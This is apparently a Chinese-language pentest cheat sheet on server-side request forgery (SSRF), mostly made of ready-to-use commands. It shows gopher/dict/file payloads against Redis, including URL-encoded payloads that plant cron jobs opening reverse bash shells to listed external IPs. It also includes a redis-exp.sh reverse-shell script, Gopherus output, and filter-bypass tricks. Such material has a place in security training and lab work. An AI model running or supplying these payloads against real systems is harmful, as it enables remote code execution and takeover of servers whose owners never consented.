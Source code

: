 ```yaml
---
title: SSRF
encrypt: false
enc_pwd: askding
categories:
  - Kali
  - Exploit
date: 2021-04-19 15:03:37
top:
tags:
layout:
---
```

编写进度
- [x] 



靶机环境 https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf

https://github.com/hongriSec/Web-Security-Attack

https://blog.csdn.net/u012206617/article/details/108941738

https://my.oschina.net/u/4588149/blog/4436524

https://www.anquanke.com/post/id/197431

https://websec.readthedocs.io/zh/latest/vuln/ssrf.html

https://segmentfault.com/a/1190000021960060

https://*thorns.gitbooks.io/sec/content/teng\_xun\_mou\_chu\_ssrf\_lou\_6d1e28\_fei\_chang\_hao\_de*.html

https://my.oschina.net/u/4588149/blog/4436524

能发起对外请求且URL可控的地方都有可能存在ssrf（协议地址端口内容完全可控）

https://joner11234.github.io/article/9d7d2c7d.html

https://joner11234.github.io/article/9897b513.html

https://github.com/tarunkant/Gopherus

工具 ：http://xip.io/
http://xip.name

SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。

请求中常用参数share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain

![SSRF](https://raw.githubusercontent.com/crkmythical/Advanced-Ethical-Hacking-Training/main/Resource/img/20210419144323urlencode_all.png?token=ATXUKW6VO2E3WA5DV2YM6ITAPUTNK)

```zsh
# dict protocol (操作Redis)
curl -vvv 'dict://127.0.0.1:6379/info'

# file protocol (任意文件读取)
curl -vvv 'file:///etc/passwd'

# gopher protocol (一键反弹Bash)   * 注意: 链接使用单引号，避免$变量问题
curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
```

## 协议使用

（1）file： 在有回显的情况下，利用 file 协议可以读取任意内容

```zsh
curl -v 'http://39.x.x.x:8000/ssrf.php?url=file:///etc/passwd'
```

（2）dict：泄露安装软件版本信息，查看端口，操作内网redis服务等

```zsh
curl -v 'http://39.x.x.x:8000/ssrf.php?url=dict://127.0.0.1:22/'
```

（3）gopher：gopher支持发出GET、POST请求：可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。

反弹shell脚本`redis-exp.sh`

```zsh
redis-cli -h $1 flushall
echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.43.20/7777 0>&1\n\n"|redis-cli -h $1 -x set 1
redis-cli -h $1 config set dir /var/spool/cron/
redis-cli -h $1 config set dbfilename root
redis-cli -h $1 save
```

在本级上上运行socat查看执行的命令

```zsh
socat -v tcp-listen:4444,fork tcp-connect:10.211.55.4:6379   # 10.211.55.4 为目标机
sh redis-exp.sh
```

socat会输出 redis-exp 执行的内容

```zsh
*3\r
$3\r
set\r
$1\r
1\r
$65\r
-e 


*/1 * * * * bash -i >& /dev/tcp/192.168.43.26/7777 0>&1



\r
*4\r
$6\r
config\r
$3\r
set\r
$3\r
dir\r
$16\r
/var/spool/cron/\r
*4\r
$6\r
config\r
$3\r
set\r
$10\r
dbfilename\r
$4\r
root\r
*1\r
$4\r
save\r
*1\r
$4\r
quit\r
^C%                       
``````zsh
curl -v 'http://39.x.x.x:8000/ssrf.php?url=gopher://192.168.1.4:6379/_*1%250d%250a%248%250d%250aflushall%250d%250a%2a3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2464%250d%250a%250d%250a%250a%250a%2a%2f1%20%2a%20%2a%20%2a%20%2a%20bash%20-i%20%3E%26%20%2fdev%2ftcp%2f121.36.67.230%2f5555%200%3E%261%250a%250a%250a%250a%250a%250d%250a%250d%250a%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2fvar%2fspool%2fcron%2f%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2a1%250d%250a%244%250d%250asave%250d%250aquit%250d%250a'
```

（4）http/s：探测内网主机存活

```zsh
curl -v 'http://39.x.x.x:8000/ssrf.php?url=dict://127.0.0.1'
```

## Bypass

- [ ] 针对`Host`

```zsh
1. http://www.target.com@10.10.10.10  ->10.10.10.10
2. http://10.10.10.10#www.target.com  ->10.10.10.10
3. 10。10。10。10                     -> 10.10.10.10
3. xip.io & xip.name
4. tinyurl.com
6. ip编码绕过
7. [DNS Rebinding](https://github.com/Tr3jer/dnsAutoRebinding)
```

## SSRF探测内网Redis服务(burp intruder)

1.  利用http协议对内网进行探测，探测整个内网的存活ip， `curl http://www.target.com/ssrf.php?url=http://172.16.x.x`
2.  利用dict协议获取存活ip的6379端口banner信息 `curl http://www.target.com/ssrf.php?url=dict://172.16.55.23:6379/info`
3.  利用crontab写计划任务
    
    1.  URL全编码以下payload
    
    ```zsh
    test
    
    set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/vps/port 0>&1\n\n\n\n"
    config set dir /var/spool/root     
    config set dbfilename crontab
    save
    
    aaa
    ```
    
    2.  使用gopher协议发送payload
    
    ```zsh
    curl http://www.target.com/ssrf.php?url=gopher://172.16.55.23:6379/_%74%65%73%74%0d%0a%0d%0a%73%65%74%20%31%20%22%5c%6e%5c%6e%5c%6e%5c%6e%2a%20%2a%20%2a%20%2a%20%2a%20%72%6f%6f%74%20%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%6c%51%69%70%2f%d1%2c%ef%e3%20%30%3e%26%31%5c%6e%5c%6e%5c%6e%5c%6e%22%0d%0a%63%6f%6e%66%69%67%20%73%65%74%20%64%69%72%20%2f%74%6d%70%0d%0a%63%6f%6e%66%69%67%20%73%65%74%20%64%62%66%69%6c%65%6e%61%6d%65%20%63%72%6f%6e%74%61%62%0d%0a%73%61%76%65%0d%0a%0d%0a%61%61%61
    +OK
    +OK
    +OK
    +OK
    
    ```
    
    2.  通过[Gopherus](https://github.com/tarunkant/Gopherus)生成RESP格式的payload
    
    ```zsh
    python gopherus.py --exploit redis
    Your gopher link is ready to get Reverse Shell:
    
    gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2464%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/127.0.0.1/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
    
    Before sending request plz do `nc -lvp 1234`
    ```

工具
[SSRFmap](https://github.com/swisskyrepo/SSRFmap)
[SSRF-Testing](https://github.com/cujanovic/SSRF-Testing)
